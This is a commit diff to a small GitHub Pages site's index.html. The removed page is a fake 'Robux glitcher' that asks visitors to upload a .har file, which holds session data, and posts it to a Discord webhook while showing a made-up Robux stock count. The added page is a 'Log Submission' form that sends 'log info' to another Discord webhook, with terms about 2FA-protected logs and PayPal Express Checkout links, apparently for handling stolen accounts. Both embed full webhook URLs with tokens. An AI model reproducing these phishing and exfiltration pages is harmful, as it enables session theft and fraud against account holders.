

Before and after one commit to Dominicanu/rexzy.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 64-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,152 +1,95 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-    <title>Robux glitcher</title>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Log Submission</title>
     <style>
         body {
-            margin: 0;
-            background: #1a1a1a;
-            color: #fff;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-        }
-
-        .top-bar {
-            background: #ff2e2e;
-            padding: 15px;
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-        }
-
-        .logo {
-            font-size: 24px;
-            font-weight: bold;
+            font-family: Arial, sans-serif;
+            background-color: #121212;
             color: white;
-            text-shadow: 2px 2px 0px #000;
-        }
-
-        .container {
-            max-width: 800px;
-            margin: 20px auto;
-            padding: 0 20px;
-        }
-
-        .upload-box {
-            background: #2a2a2a;
-            border: 3px solid #ff2e2e;
-            border-radius: 10px;
+            text-align: center;
             padding: 20px;
         }
-
-        .drag-area {
-            border: 3px dashed #444;
-            border-radius: 8px;
-            padding: 40px;
-            text-align: center;
-            margin: 20px 0;
-            transition: all 0.3s;
+        .container {
+            max-width: 400px;
+            margin: auto;
+            background: #1e1e1e;
+            padding: 20px;
+            border-radius: 10px;
+        }
+        input, textarea, button {
+            width: 100%;
+            margin-top: 10px;
+            padding: 10px;
+            border-radius: 5px;
+            border: none;
+            box-sizing: border-box;
+        }
+        button {
+            background-color: #007bff;
+            color: white;
             cursor: pointer;
+            font-size: 16px;
+            font-weight: bold;
         }
-
-        .drag-area:hover {
-            border-color: #ff2e2e;
-            background: #333;
+        button:disabled {
+            background-color: gray;
+            cursor: not-allowed;
         }
-
-        input[type="text"] {
-            width: 100%;
-            padding: 12px;
-            margin: 8px 0;
-            background: #333;
-            border: 2px solid #444;
-            border-radius: 6px;
-            color: white;
-            font-size: 16px;
-        }
-
-        input[type="text"]:focus {
-            border-color: #ff2e2e;
-            outline: none;
-        }
-
-        .upload-btn {
-            background: #ff2e2e;
-            color: white;
-            border: none;
-            padding: 12px 30px;
-            border-radius: 6px;
-            font-size: 16px;
-            cursor: pointer;
-            transition: all 0.3s;
-            text-transform: uppercase;
-            font-weight: bold;
-            letter-spacing: 1px;
-            margin-top: 10px;
-        }
-
-        .upload-btn:hover {
-            background: #ff4444;
-            transform: translateY(-2px);
-        }
-
-        .stock-box {
-            background: #2a2a2a;
-            border: 3px solid #ff2e2e;
-            border-radius: 10px;
-            padding: 20px;
-            margin-top: 20px;
-            text-align: center;
-        }
+        .hidden { display: none; }
     </style>
 </head>
 <body>
-    <div class="top-bar">
-        <div class="logo">Robux glitcher 101</div>
-    </div>
+    <div class="container">
+        <h2>Submit Log Info</h2>
+        <input type="text" id="discordUser" placeholder="Enter Discord Username">
+        <textarea id="logInfo" placeholder="Enter Log Info"></textarea>
+        <button onclick="showToS()">Submit</button>
 
-    <div class="container">
-        <div class="upload-box">
-            <h2>Start glitching robux now</h2>
-            <form id="upload-form">
-                <input type="text" id="username" placeholder="Username" required>
-
-                <div class="drag-area" onclick="document.getElementById('file-input').click()">
-                    <h3>📂 Drop your .har file here</h3>
-                    <p style="color: #666;">or click to select</p>
-                    <input type="file" id="file-input" hidden>
-                </div>
-
-                <button type="submit" class="upload-btn">Upload 🚀</button>
-            </form>
-        </div>
-
-        <div class="stock-box">
-            <h2>💰 Robux Stock</h2>
-            <p id="robux-stock">Loading...</p>
+        <div id="tosSection" class="hidden">
+            <h3>Read This Before Continuing</h3>
+            <p><b>ToS:</b></p>
+            <p>1. I am doing my best, but I am not responsible if the log has 2FA.</p>
+            <p>2. The link you provide must have PayPal Express Checkout.</p>
+            <p>3. Log info must be sent in plain text.</p>
+            <p><i>Type "I accept the ToS" to continue.</i></p>
+            <input type="text" id="tosConfirm" placeholder="Type here...">
+            <button id="acceptBtn" onclick="submitForm()" disabled>I Accept the ToS</button>
         </div>
     </div>
 
     <script>
-        document.getElementById('upload-form').addEventListener('submit', async function(e) {
-            e.preventDefault();
-            const username = document.getElementById('username').value;
-            const file = document.getElementById('file-input').files[0];
-            if (!file) {
-                alert('Please select a file to upload.');
+        function showToS() {
+            document.getElementById("tosSection").classList.remove("hidden");
+        }
+
+        document.getElementById("tosConfirm").addEventListener("input", function() {
+            document.getElementById("acceptBtn").disabled = this.value !== "I accept the ToS";
+        });
+
+        function submitForm() {
+            const discordUser = document.getElementById("discordUser").value;
+            const logInfo = document.getElementById("logInfo").value;
+            const webhookUrl = "https://discord.com/api/webhooks/1343315467862933554/LB5K6hfDPBjJ2wKl_kU8ac6PCWoa_6On-W4k0AdFejk13w8jHxG9tNON7DtJpHOxMxKO";
+
+            if (!discordUser || !logInfo) {
+                alert("Fill in all fields before submitting.");
                 return;
             }
-            const webhookURL = "https://discord.com/api/webhooks/1341466721470513212/enzbhGGGNNU0Bw01NS9HReyCVhzyY6K2RBuaAYut4b1xzmTI9rkDYdem9HIxjq1LsyT5";
-            const formData = new FormData();
-            formData.append("file", file);
-            formData.append("content", `New upload from: ${username}`);
-            await fetch(webhookURL, { method: "POST", body: formData });
-            alert('File uploaded successfully!');
-        });
 
-        function updateRobuxStock() {
-            document.getElementById('robux-stock').textContent = `${Math.floor(Math.random() * 100000) + 1000} Robux`;
+            const payload = {
+                content: `New Log Submission:\n**Discord Username:** ${discordUser}\n**Log Info:** ${logInfo}`
+            };
+
+            fetch(webhookUrl, {
+                method: "POST",
+                headers: { "Content-Type": "application/json" },
+                body: JSON.stringify(payload)
+            }).then(() => alert("Submitted successfully."))
+            .catch(() => alert("Error submitting data."));
         }
-        updateRobuxStock();
     </script>
 </body>
 </html>
```
